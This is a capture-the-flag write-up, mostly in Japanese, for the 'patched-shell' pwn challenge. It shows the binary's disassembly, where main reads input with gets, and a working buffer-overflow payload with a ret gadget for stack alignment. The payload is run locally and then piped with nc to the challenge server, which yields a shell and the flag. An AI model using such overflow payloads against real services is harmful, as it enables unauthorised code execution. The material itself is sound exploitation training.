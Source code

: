 # patched-shell:Pwn:250pts
Okay, okay. So you were smart enough to do basic overflow huh...  
Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha  
Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.  

`nc 34.134.173.142 5000`  
[patched-shell](patched-shell)  

# Solution
[basic-overflow](../basic-overflow)の続きのようだ。  
execveの代わりにsystemを呼び出しているらしい。  
```bash
$ objdump -D ./patched-shell

./patched-shell:     file format elf64-x86-64
~~~
0000000000401136 <shell>:
  401136:       55                      push   %rbp
  401137:       48 89 e5                mov    %rsp,%rbp
  40113a:       48 8d 05 c3 0e 00 00    lea    0xec3(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  401141:       48 89 c7                mov    %rax,%rdi
  401144:       e8 e7 fe ff ff          call   401030 <system@plt>
  401149:       90                      nop
  40114a:       5d                      pop    %rbp
  40114b:       c3                      ret

000000000040114c <main>:
  40114c:       55                      push   %rbp
  40114d:       48 89 e5                mov    %rsp,%rbp
  401150:       48 83 ec 40             sub    $0x40,%rsp
  401154:       48 8d 45 c0             lea    -0x40(%rbp),%rax
  401158:       48 89 c7                mov    %rax,%rdi
  40115b:       b8 00 00 00 00          mov    $0x0,%eax
  401160:       e8 db fe ff ff          call   401040 <gets@plt>
  401165:       b8 00 00 00 00          mov    $0x0,%eax
  40116a:       c9                      leave
  40116b:       c3                      ret
~~~
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x36\x11\x40\x00\x00\x00\x00\x00';cat) | ./patched-shell
whoami
Segmentation fault
```
確かにシェルが取れない。  
おそらくスタックアライメントが原因で落ちていると予想し、`ret`を一度挟めばよい。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4b\x11\x40\x00\x00\x00\x00\x00\x36\x11\x40\x00\x00\x00\x00\x00';cat) | ./patched-shell
whoami
satoki
```
リモートへ試す。  
```bash
$ (echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4b\x11\x40\x00\x00\x00\x00\x00\x36\x11\x40\x00\x00\x00\x00\x00';cat) | nc 34.134.173.142 5000
id
uid=1000 gid=1000 groups=1000
ls
flag
run
cat flag
uoftctf{patched_the_wrong_function}
```
flagが得られた。  

## uoftctf{patched_the_wrong_function}